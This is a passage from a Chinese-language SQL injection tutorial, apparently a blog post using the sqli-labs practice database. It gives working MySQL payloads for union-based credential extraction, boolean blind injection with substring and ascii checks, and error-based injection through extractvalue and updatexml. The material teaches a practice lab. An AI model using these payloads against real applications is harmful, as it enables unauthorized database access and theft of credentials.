 ⑦查数据
`?id=-1' union select
1,group_concat(username),group_concat(password) 
from security.users%23`
![23](https://img-blog.csdnimg.cn/9f8f891db538494c8e172badb3d1a456.png#pic_center)
### 2.6.5 布尔盲注
字符串截取函数
**• left(a,b)：** 从左侧截取a的前b位`left(database(),2) = 'se'`
**• right(a,b)：** 从右侧截取a的后b位`right(database(),2) ='ty'`
**• substr(a,b,c)：** 从b位置开始，截取字符串a的c长度`substr(database(),1,1) ='s'`
**• mid(a,b,c)：** 从b位置开始，截取a字符串的c位`mid(database(),1,1) = 's'`
![24](https://img-blog.csdnimg.cn/50ea62c1fd134249af23101d606bcd33.png#pic_center)
基于布尔的盲注一般就是构造`and 1=1`、`or 1=1`这种结构，根据页面返回的结果来判断语句是正确还是错误，从而获取数据。
**例如：**
`id = 1' and (ascii(substr(database(),1,1)) = 115) = 1%23`
由于数据库第一位s的ascii值为115,就构造出1=1的结构，页面正常
![25](https://img-blog.csdnimg.cn/8e6813cdcef841719e4826707a432c90.png#pic_center)
在进行布尔盲注时，往往会涉及到表的切换，这时就需要用到`Iimit函数`
我们先来看一下security库的表结构
![26](https://img-blog.csdnimg.cn/bab86719a70b4be883c5ccf100408274.png#pic_center)
limit a,b：从第a位开始，取得之后b条数据
`注意：`这里的a是从0开始，得到第一张表需要用到`limit 0,1`
`select table_name from information_schema.tables where table_schema='security' limit 0,1;`
![27](https://img-blog.csdnimg.cn/0719fc81c79b45ee8eac39f96070fbd2.png#pic_center)
这样就得到了第一张表，那么第二张表就是limit 1,1以此类推

### 2.6.6 报错注入
报错盲注原理就是让信息通过`错误提示回显出来`，解决无回显问题。 
MySQL—共有十种报错注入，我们只实验实战价值较大的三个
**• extractvalue**
extractvalue(1,concat(0x7e,(select @@version),0x7e))
**• updatexml**
updatexml(1,concat(0x7e,(select @@version),0x7e),1)
**• floor**
前两个是通过xpath语法报错，带出信息
第三个的原理较复杂，但好在payload相对固定，会用即可

#### 2.6.6.1 extractvalue函数
`select 1 or extractvalue(1,concat(0x7e,(select database()),0x7e));`
![28](https://img-blog.csdnimg.cn/5bea6a78f55c429ab64144dc35629075.png#pic_center)
后面的查询语句跟联合查询较为相似，只是把联合查询的语句放到`报错语句`中 
`select 1 or extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e));`
![29](https://img-blog.csdnimg.cn/9c1f655d93054f4fbf7954b50285fc68.png#pic_center)
#### 2.6.6.2 updatexmI函数
`select 1 or updatexml(1,concat(0x7e,(select database()),0x7e),1);`
